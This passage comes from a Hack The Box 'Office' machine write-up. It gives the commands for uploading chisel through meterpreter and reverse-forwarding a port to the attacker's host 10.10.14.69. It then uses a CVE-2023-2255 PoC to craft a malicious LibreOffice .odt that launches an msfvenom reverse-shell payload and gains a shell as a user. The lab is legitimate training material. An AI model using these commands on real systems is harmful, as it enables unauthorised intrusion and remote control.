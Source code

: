
- He uploaded the file `chisel_windows_amd64.exe` using the `upload` command of `meterpreter`.

```shell
upload chisel_windows_amd64.exe c:\\windows\\tasks
```

![](/assets/images/HTB-Writeup-Office/Pasted image 20240619170205.png)

- He forwarded port `8083` to port `8083` on his attack machine.

```bash
c:\windows\tasks\chisel_windows_amd64.exe client 10.10.14.69:8050 R:8083:127.0.0.1:8083
```

![](/assets/images/HTB-Writeup-Office/Pasted image 20240619172449.png)

```bash
chisel server -p 8050 --reverse
```

- Given that port 8083 is accessible, the pentester inspected the website.

- The pentester found it strange that uploading .odt files was allowed. After a quick search for recent vulnerabilities, they discovered CVE-2023-2255.

![](/assets/images/HTB-Writeup-Office/Pasted image 20240620003131.png)

- The CVE affects versions of `LibreOffice prior to 6.3`, allowing command execution upon opening files without any alerts. This stems from inadequate access controls in editor components handling documents with 'floating frames' linked to external files. The pentester discovered the target was running `LibreOffice 5.2.6.2` and attempted to exploit this vulnerability

```shell
powershell -c "Get-WmiObject -Class Win32_Product |  select Name, Version"
```

![](/assets/images/HTB-Writeup-Office/Pasted image 20240620004520.png)

> Comments: If you want to learn more about this vulnerability, check out the repository of [Icare1337](https://github.com/Icare1337/LibreOffice_Tips_Bug_Bounty/commits?author=Icare1337) for [CVE-2023-2255](https://github.com/Icare1337/LibreOffice_Tips_Bug_Bounty/tree/main/CVE-2023-2255).
 {: .prompt-info }

- [`elweth-sec`](https://github.com/elweth-sec) has an excellent [PoC](https://github.com/elweth-sec/CVE-2023-2255). The pentester used this PoC with the payload generated earlier using `msfvenom` (`revshmet.exe`), which would allow them to obtain a reverse shell.

```shell
python3 CVE-2023-2255.py --cmd 'c:\windows\task\revshmet.exe' --output 'exploit.odt'
```

![](/assets/images/HTB-Writeup-Office/Pasted image 20240619175337.png)

- Then the pentester proceeded to upload the `exploit.odt` file to the target website located on port `8083`. Assuming there is a user reviewing the Job Application Submissions, the payload executed successfully. Great! The pentester received a reverse shell as the user `ppotts`.

![](/assets/images/HTB-Writeup-Office/Pasted image 20240619175643.png)
